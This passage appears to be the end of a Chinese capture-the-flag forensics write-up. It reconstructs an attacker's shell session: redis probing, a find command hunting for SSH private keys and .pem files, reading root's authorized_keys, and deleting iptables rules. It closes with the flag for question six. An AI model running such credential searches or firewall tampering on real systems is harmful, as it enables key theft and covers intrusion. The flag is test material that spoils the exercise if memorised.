● nginx.service - A high performance web server and a reverse proxy server
     Loaded: loaded (/lib/systemd/system/nginx.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2025-12-14 17:17:27 CST; 16h ago
       Docs: man:nginx(8)
    Process: 8710 ExecStartPre=/usr/sbin/nginx -t -q -g daemon on; master_process on; (code=exited, status=0/SUCCESS)
    Process: 8712 ExecStart=/usr/sbin/nginx -g daemon on; master_process on; (code=exited, status=0/SUCCESS)
   Main PID: 8713 (nginx)
      Tasks: 2 (limit: 1021)
     Memory: 2.6M
        CPU: 22ms
     CGroup: /system.slice/nginx.service
             ├─8713 "nginx: master process /usr/sbin/nginx -g daemon on; master…
             └─8714 "nginx: worker process" "" "" "" "" "" "" "" "" "" "" "" ""…
Dec 14 17:17:27 server systemd[1]: nginx.service: Deactivated successfully.
Dec 14 17:17:27 server systemd[1]: Stopped A high performance web server an…ver.
Dec 14 17:17:27 server systemd[1]: Starting A high performance web server a…r...
Dec 14 17:17:27 server systemd[1]: Started A high performance web server an…ver.
Hint: Some lines were ellipsized, use -l to show in full.
[\u@\h \W]\$ redis-cli ping
(error) NOAUTH Authentication required.
[\u@\h \W]\$ redis-cli info
NOAUTH Authentication required.
[\u@\h \W]\$ find /home -name "id_rsa" -o -name "*.pem" 2>/dev/null
[\u@\h \W]\$ cat /root/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDLxvZv0lsaMTLYgz4vLvywOobQ49bvMU4jFXGsSbHNx root@server
[\u@\h \W]\$ /sbin/iptables -t nat -D PREROUTING -p tcp -s 192.168.24.13 --dport 29268 -j REDIRECT --to-ports 42391
iptables: Bad rule (does a matching rule exist in that chain?).
[\u@\h \W]\$ iptables -D INPUT -p tcp -s 192.168.24.13 -j ACCEPT
[\u@\h \W]\$ exit
```

观察两次 shell 的历史记录可知，攻击者读取了 2 个文件。

此时得到第六问答案：`flag{/etc/issue_/root/.ssh/authorized_keys}`
